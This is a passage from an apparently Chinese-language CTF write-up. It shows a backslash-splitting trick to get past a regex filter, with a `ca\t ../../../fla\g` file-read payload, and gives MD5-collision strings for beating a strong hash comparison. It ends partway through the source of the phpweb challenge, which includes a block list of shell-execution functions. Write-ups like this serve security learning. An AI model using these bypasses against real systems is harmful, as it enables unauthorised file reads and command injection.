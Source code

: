 解码后，进行代码审计,具体内容见上

好家伙，我学了一招，`linux`下命令行尾部输`\`可以换行并继续输入命令，与上一行进行连接，命令可以正常执行，用这一特性可以绕过全字匹配的正则匹配

举个例子
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210611120214211.png)
绕过强制类型转换MD5强比较
`a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2`

`b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2`

* 没有过滤`.`和`/`我们直接在这里面找 `flag`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210611123805307.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODM3ODk2,size_16,color_FFFFFF,t_70)

去根目录
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210611124218244.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210611124231194.png)
`ca\t%20../../../fla\g`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210611124502273.png)
**又学到了学到了！**

# [网鼎杯 2020 朱雀组]phpweb
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210611125022376.png)出现一个一直刷新时间的页面，告诉我们要正确设置时区

抓包分析，发现有一个传函数的参数

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210611180512954.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210611180622491.png)
发现它是把后面的内容当作参数读到前面的函数参数里面的，我们把`index.php`作为参数写进去

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210611180733606.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODM3ODk2,size_16,color_FFFFFF,t_70)
得到页面源码，当然这里用其他几个读源码的函数也行

`readfile,show_source,highlight_file`，emm后面两个函数是一样的，别名关系

```php
 <?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {//
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
```